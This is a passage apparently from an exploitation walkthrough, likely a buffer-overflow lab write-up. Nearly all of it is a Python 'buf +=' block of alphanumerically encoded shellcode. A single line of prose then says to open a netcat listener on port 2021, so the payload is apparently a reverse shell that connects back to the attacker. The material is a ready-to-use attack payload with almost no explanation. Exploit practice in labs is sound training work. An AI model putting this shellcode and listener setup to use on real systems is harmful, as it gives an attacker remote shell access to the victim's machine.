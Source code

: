 ```sh
buf += b"\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50"
buf += b"\x38\x41\x42\x75\x4a\x49\x79\x6c\x59\x78\x4e\x62\x37"
buf += b"\x70\x77\x70\x43\x30\x65\x30\x6c\x49\x4a\x45\x64\x71"
buf += b"\x49\x50\x55\x34\x4e\x6b\x52\x70\x30\x30\x6e\x6b\x50"
buf += b"\x52\x56\x6c\x6c\x4b\x56\x32\x34\x54\x4e\x6b\x53\x42"
buf += b"\x46\x48\x44\x4f\x4f\x47\x30\x4a\x71\x36\x34\x71\x79"
buf += b"\x6f\x4e\x4c\x37\x4c\x45\x31\x33\x4c\x47\x72\x64\x6c"
buf += b"\x51\x30\x69\x51\x4a\x6f\x34\x4d\x36\x61\x69\x57\x6d"
buf += b"\x32\x59\x62\x71\x42\x62\x77\x6e\x6b\x62\x72\x44\x50"
buf += b"\x4e\x6b\x50\x4a\x47\x4c\x4e\x6b\x72\x6c\x74\x51\x72"
buf += b"\x58\x68\x63\x47\x38\x46\x61\x6a\x71\x46\x31\x6c\x4b"
buf += b"\x52\x79\x51\x30\x46\x61\x78\x53\x4c\x4b\x50\x49\x37"
buf += b"\x68\x6a\x43\x46\x5a\x61\x59\x6e\x6b\x65\x64\x6e\x6b"
buf += b"\x33\x31\x49\x46\x34\x71\x59\x6f\x4c\x6c\x49\x51\x38"
buf += b"\x4f\x36\x6d\x65\x51\x6f\x37\x77\x48\x4b\x50\x34\x35"
buf += b"\x79\x66\x74\x43\x51\x6d\x7a\x58\x37\x4b\x71\x6d\x77"
buf += b"\x54\x50\x75\x6d\x34\x62\x78\x6e\x6b\x62\x78\x37\x54"
buf += b"\x77\x71\x6e\x33\x31\x76\x6e\x6b\x36\x6c\x62\x6b\x6e"
buf += b"\x6b\x73\x68\x57\x6c\x46\x61\x7a\x73\x6e\x6b\x43\x34"
buf += b"\x4e\x6b\x35\x51\x4e\x30\x4e\x69\x50\x44\x56\x44\x65"
buf += b"\x74\x61\x4b\x51\x4b\x73\x51\x72\x79\x32\x7a\x33\x61"
buf += b"\x49\x6f\x69\x70\x51\x4f\x71\x4f\x50\x5a\x4e\x6b\x55"
buf += b"\x42\x5a\x4b\x6e\x6d\x71\x4d\x65\x38\x30\x33\x34\x72"
buf += b"\x47\x70\x73\x30\x51\x78\x71\x67\x53\x43\x35\x62\x51"
buf += b"\x4f\x32\x74\x61\x78\x52\x6c\x64\x37\x54\x66\x66\x67"
buf += b"\x69\x6f\x49\x45\x4e\x58\x7a\x30\x43\x31\x57\x70\x55"
buf += b"\x50\x74\x69\x6b\x74\x30\x54\x30\x50\x65\x38\x31\x39"
buf += b"\x6d\x50\x72\x4b\x45\x50\x4b\x4f\x79\x45\x52\x70\x72"
buf += b"\x70\x66\x30\x52\x70\x53\x70\x30\x50\x73\x70\x56\x30"
buf += b"\x61\x78\x5a\x4a\x44\x4f\x59\x4f\x4d\x30\x79\x6f\x68"
buf += b"\x55\x6f\x67\x53\x5a\x43\x35\x53\x58\x73\x33\x6e\x63"
buf += b"\x38\x4f\x6d\x7a\x31\x78\x37\x72\x67\x70\x46\x4e\x4e"
buf += b"\x52\x6d\x59\x4d\x36\x53\x5a\x56\x70\x76\x36\x31\x47"
buf += b"\x62\x48\x7a\x39\x6d\x75\x52\x54\x55\x31\x59\x6f\x49"
buf += b"\x45\x6c\x45\x69\x50\x72\x54\x64\x4c\x4b\x4f\x62\x6e"
buf += b"\x34\x48\x73\x45\x6a\x4c\x35\x38\x58\x70\x58\x35\x59"
buf += b"\x32\x73\x66\x69\x6f\x4b\x65\x33\x58\x42\x43\x30\x6d"
buf += b"\x62\x44\x37\x70\x6e\x69\x5a\x43\x56\x37\x46\x37\x43"
buf += b"\x67\x30\x31\x38\x76\x32\x4a\x64\x52\x42\x79\x61\x46"
buf += b"\x38\x62\x39\x6d\x71\x76\x4b\x77\x63\x74\x46\x44\x67"
buf += b"\x4c\x73\x31\x37\x71\x4e\x6d\x63\x74\x75\x74\x52\x30"
buf += b"\x48\x46\x37\x70\x43\x74\x33\x64\x50\x50\x66\x36\x71"
buf += b"\x46\x50\x56\x62\x66\x72\x76\x50\x4e\x46\x36\x63\x66"
buf += b"\x70\x53\x31\x46\x42\x48\x32\x59\x78\x4c\x35\x6f\x6e"
buf += b"\x66\x59\x6f\x49\x45\x6e\x69\x6b\x50\x50\x4e\x63\x66"
buf += b"\x42\x66\x4b\x4f\x76\x50\x62\x48\x55\x58\x4e\x67\x57"
buf += b"\x6d\x73\x50\x79\x6f\x6b\x65\x4f\x4b\x48\x70\x4d\x65"
buf += b"\x69\x32\x66\x36\x62\x48\x4e\x46\x6d\x45\x4f\x4d\x4f"
buf += b"\x6d\x49\x6f\x69\x45\x37\x4c\x37\x76\x61\x6c\x65\x5a"
buf += b"\x4b\x30\x79\x6b\x39\x70\x70\x75\x47\x75\x6d\x6b\x31"
buf += b"\x57\x32\x33\x44\x32\x42\x4f\x71\x7a\x43\x30\x51\x43"
buf += b"\x79\x6f\x68\x55\x41\x41"

```
now we can open a listener on port 2021 just typing 
```sh
nc -lvp 2021
```
---
